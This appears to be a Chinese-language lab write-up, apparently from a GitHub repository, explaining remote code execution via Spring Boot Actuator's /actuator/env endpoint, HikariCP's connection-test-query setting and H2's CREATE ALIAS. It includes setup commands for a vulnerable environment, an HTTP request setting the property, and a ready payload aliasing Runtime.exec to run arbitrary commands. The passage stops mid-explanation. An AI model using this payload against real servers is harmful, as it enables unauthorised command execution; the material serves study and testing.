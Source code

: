 ```sh
git clone https://github.com/superboy-zjc/Vulnerable-environment.git
cd Vulnerable-environment/spring-boot-actuator-h2-rce/
java -jar springboot-h2-database-rce.jar
#默认在8080端口运行
```

# 三、漏洞利用原理：

## 1、利用条件之HikariCP数据库连接池

HikariCP是一个帮助WEB应用与数据库进行连接的连接池。它有一个配置项叫做：`connectionTestQuery`。它的作用是当一个WEB应用程序向HikariCP数据库连接池发送一个数据库连接请求时，HikariCP会首先执行这个配置项配置的SQL语句，来判断是否数据库可以正常被允许建立连接。这条配置项对应的SpringBoot环境变量名是：`spring.datasource.hikari.connection-test-query`。

因此，通过`POST /actuator/env`来设置`spring.datasource.hikari.connection-test-query`环境变量，然后，通过`/restart`端口重启应用程序上下文刷新数据库的连接，来激活这个配置项，实现执行任意SQL语句。

```http
POST /actuator/env HTTP/1.1
Content-type: applicaiton/json

{"name":"spring.datasource.hikari.connection-test-query","value":"SELECT 1"}
```

## 2、利用条件之H2 database数据库

通过H2数据库的一些小功能，我们可以联动起来达到RCE的效果。

H2数据库作为一个基于java开发的内存数据库，有着轻便、开源、速度快、提供友好的WEB界面、跨平台等等的优点。开发人员经常使用它来进行单元测试。由于其基于JAVA开发的特性，H2数据库提供了一些强大的兼容功能。其中之一就是`CREATE ALIAS`SQL语句。通过`CREATE ALIAS`的功能，你可以定义一个JAVA函数，用一个别名和它关联起来，然后在SQL语句中通过别名来调用执行它。

```sql
CREATE ALIAS GET_SYSTEM_PROPERTY FOR "java.lang.System.getProperty";	#创建别名函数GET_SYSTEM_PROPERTY
CALL GET_SYSTEM_PROPERTY('java.class.path');	#执行别名函数GET_SYSTEM_PROPERTY
```

因此，通过H2数据库`CREATE ALIAS`的特性，我们可以设置一个`Runtime.getRuntime().exec`方法的别名给HikariCP的`connectionTestQuery`配置项，然后通过`POST /actuator/env`来达到任意命令执行~

```sh
spring.datasource.hikari.connection-test-query=CREATE ALIAS exec_name AS CONCAT('String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new',' java.util.Scanner(Runtime.getRun','time().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }');CALL exec_name('命令');
```

## 3、利用条件之 Spring Cloud 对 /actuator/env 与 /actuator/restart POST方法的支持

从[<u>Spring Boot官方文档</u>](https://docs.spring.io/spring-boot/docs/1.3.1.RELEASE/reference/htmlsingle/#production-ready-endpoints)中可以看到，SpringBoot Actuator中并不支持POST方法对`/actuator/env`环境变量的设置，只支持GET方法来获取环境数据。并且也没有`/actuator/restart`端口功能。
